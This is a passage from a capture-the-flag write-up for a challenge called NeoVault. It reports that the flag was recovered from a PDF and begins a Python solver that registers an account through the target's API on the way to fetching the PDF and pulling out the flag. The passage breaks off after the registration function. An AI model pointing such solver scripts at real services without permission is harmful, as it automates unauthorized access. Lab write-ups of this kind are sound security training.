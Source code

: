 Now let’s go and see the PDF.

![image.png](../images/NeoVault%209.png)

> Amazing we managed to get the flag!
> 

Now let’s write the exploitation script

```python
#!/usr/bin/env python3
"""
NeoVault solver - Register / Login / Retrieve PDF / Extract flag
Usage:
    python neovault_solver.py --url https://target --email you@example.com --password P@ssw0rd
"""

import argparse
import sys
import re
from pathlib import Path

import requests
from pypdf import PdfReader

FLAG_REGEX = re.compile(r"(HTB\{.*?\}|FLAG\{.*?\}|flag\{.*?\})", re.IGNORECASE)
headers = {
    "Content-Type": "application/json"
}

def try_register(session: requests.Session, base_url: str, email: str, password: str, username: str = "SecretRemo") -> bool:
    """Try to register an account. Returns True on success, False otherwise."""
    url = base_url.rstrip("/") + "/api/v2/auth/register"
    data = {"username": username, "email": email, "password": password}
    try:
        resp = session.post(url, json=data, timeout=15,headers=headers)
    except requests.RequestException as e:
        print(f"[-] Register request failed: {e}")
```